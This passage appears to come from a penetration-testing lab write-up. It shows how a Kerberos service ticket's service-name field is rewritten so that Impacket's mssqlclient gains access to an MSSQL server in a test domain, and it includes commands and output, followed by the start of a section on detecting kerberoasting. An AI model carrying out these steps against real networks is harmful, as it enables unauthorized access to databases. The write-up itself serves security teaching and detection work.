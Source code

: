 We can use [the following script](https://gist.github.com/gatariee/b5fe4986715143b74dc1d90cf6123685) to take our "empty" service ticket, and inject the `MSSQLSVC/SQL01.asia.earth.local` service name into the `sname` field.

```
python3 hmmST.py 

[original] current_service: svc_sql@ASIA.EARTH.LOCAL
[modified] new_service: MSSQLSVC/SQL01.ASIA.EARTH.LOCAL@ASIA.EARTH.LOCAL
```

We can then use `klist` to verify that the service ticket is now being recognized as a valid service ticket for the `MSSQLSVC/SQL01.asia.earth.local` service:

```
> cp 'HMMMMM@MSSQLSVC_SQL01.ASIA.EARTH.LOCAL_ASIA.EARTH.LOCAL.ccache' /tmp/krb5cc_$(id -u)

> klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: async_testuser-001@ASIA.EARTH.LOCAL

Valid starting       Expires              Service principal
06/29/2025 15:21:21  06/30/2025 01:21:20  MSSQLSVC/SQL01.ASIA.EARTH.LOCAL@ASIA.EARTH.LOCAL
        renew until 06/30/2025 15:21:22
```

We can now use this service ticket to access the `MSSQLSvc/SQL01.asia.earth.local` service!

```
export KRB5CCNAME=/tmp/krb5cc_$(id -u)
mssqlclient.py -k -no-pass SQL01.asia.earth.local       

Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(sql01): Line 1: Changed database context to 'master'.
[*] INFO(sql01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (ASIA\async_testuser-001  guest@master)> 
```

### Detection Opportunities

While detection and response is generally out of the pentesting scope, and more related to red and/or purple teaming, it is still a fun exercise to think about how you would detect this kind of activity.

#### NetExec

When performing a `kerberoasting` attack with `nxc`, by default they will use the `NT_MS_PRINCIPAL` name type - which I ironically couldn't find any documentation for - with the `{{realm}}\\{{samaccount_name}}` format.
